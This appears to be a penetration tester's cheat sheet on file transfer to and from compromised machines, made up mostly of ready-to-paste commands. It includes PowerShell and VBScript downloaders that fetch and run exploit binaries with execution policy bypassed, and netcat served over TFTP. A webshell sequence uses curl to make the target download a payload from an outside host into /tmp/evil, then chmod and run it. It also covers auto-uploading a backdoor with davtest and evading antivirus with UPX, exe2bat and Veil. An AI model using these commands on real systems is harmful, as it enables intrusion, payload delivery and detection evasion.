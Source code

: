 # File Transfers


* Limit the commands on target machine to be non-interactive

## TFTP Transfers

* UDP
  * XP -2003 contained TFTP client by default
* Not ideal
* Mostly non-interactive

`nc -nlvp 443`

`atftpd --daemon --port 69 /tftp`

copy windows version of netcat to /tftp

Invoke tftp client on windows box.

`tftp -i <IP> GET nc.exe`

## FTP

Windows have a default FTP client.  However, the client is interactive.

* supports scripted commands
  * `ftp -s`

Attacker side:
1. Set up FTP side
2. create a file with commands.  will be automatically invoked when pasted into target host
Target side:
1. Paste commands into ftp command line

## VBScript Transfers
Using VBScript
* same concept, use echo to put commands on command line


`cscript wget.vbs <URL>/local_file`


## Powershell Transfers

Use non-interactive commands and paste them on windows CLI

powershell-download

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "http://<IP>/exploit.exe" >> wget.ps1
echo $file = "new-exploit.exe" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```

Then run powershell:
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`


Simple Local Web Servers

Run a basic http server, great for serving up shells etc
python -m SimpleHTTPServer 80

Run a basic Python3 http server, great for serving up shells etc
python3 -m http.server

Run a ruby webrick basic http server
ruby -r webrick -e "s = WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd); trap('INT') { s.shutdown }; s.start"

Run a basic PHP http server
php -S $ip:80

Creating a wget VB Script on Windows:
copy this script on a windows computer to install wget in visualbasic scripting language
dont forget to start the apache2 server attack
service apache2 start
#######################################################
######################################################
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

####################################################################
####################################################################
to use simply type
cscript wget.vbs http://192.168.14.220/evidence.txt evidence.txt

Windows file transfer script that can be pasted to the command line.
File transfers to a Windows machine can be tricky without a Meterpreter shell.    The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):
echo Set args = Wscript.Arguments    >> webdl.vbs
timeout 1
echo Url = "http://1.1.1.1/windows-privesc-check2.exe"    >> webdl.vbs
timeout 1
echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")    >> webdl.vbs
timeout 1
echo dim bStrm: Set bStrm = createobject("Adodb.Stream")    >> webdl.vbs
timeout 1
echo xHttp.Open "GET", Url, False    >> webdl.vbs
timeout 1
echo xHttp.Send    >> webdl.vbs
timeout 1
echo with bStrm            >> webdl.vbs
timeout 1
echo          .type = 1 '            >> webdl.vbs
timeout 1
echo          .open            >> webdl.vbs
timeout 1
echo          .write xHttp.responseBody            >> webdl.vbs
timeout 1
echo          .savetofile "C:\temp\windows-privesc-check2.exe", 2 '    >> webdl.vbs
timeout 1
echo end with >> webdl.vbs
timeout 1
echo

            The file can be run using the following syntax:
C:\temp\cscript.exe webdl.vbs

Mounting File Shares

Mount NFS share to /mnt/nfs
mount $ip:/vol/share /mnt/nfs

HTTP Put
nmap -p80 $ip --script http-put --script-args
http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

Uploading Files

SCP
scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2
scp localfile username@$ip:~/Folder/
scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~
Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor
davtest -move -sendbd auto -url http://$ip
https://github.com/cldrn/davtest

You can also upload a file using the PUT method with the curl command:
curl -T 'leetshellz.txt' 'http://$ip'

And rename it to an executable file using the MOVE method with the curl command:
curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'

Upload shell using limited php shell cmd. Use the webshell to download and execute the meterpreter
\[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
/tmp/evil" http://$ip/files/sh.php
\[curl -s --data "cmd=chmod 777 /tmp/evil"
http://$ip/files/sh.php
curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

TFTP
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/

EX. FROM WINDOWS HOST:
C:\\Users\\Offsec>tftp -i $ip get nc.exe

FTP
apt-get update && apt-get install pure-ftpd

\#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/

/etc/init.d/pure-ftpd restart

Packing Files

Ultimate Packer for eXecutables
upx -9 nc.exe

exe2bat - Converts EXE to a text file that can be copied and pasted
locate exe2bat
wine exe2bat.exe nc.exe nc.txt

Veil - Evasion Framework
https://github.com/Veil-Framework/Veil-Evasion
apt-get -y install git
git clone https://github.com/Veil-Framework/Veil-Evasion.git
cd Veil-Evasion/
cd setup
setup.sh -c
